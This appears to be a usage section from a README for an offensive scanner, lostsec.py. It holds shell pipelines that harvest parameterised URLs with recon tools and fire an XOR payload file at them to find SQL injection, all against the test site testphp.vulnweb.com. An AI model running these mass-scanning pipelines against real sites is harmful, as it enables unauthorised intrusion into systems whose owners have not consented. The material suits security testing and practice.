 python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5

for multiple urls:

paramspider -d testphp.vulnweb.com -o urls.txt

cat output/urls.txt | sed 's/FUZZ//g' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt

cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt

katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
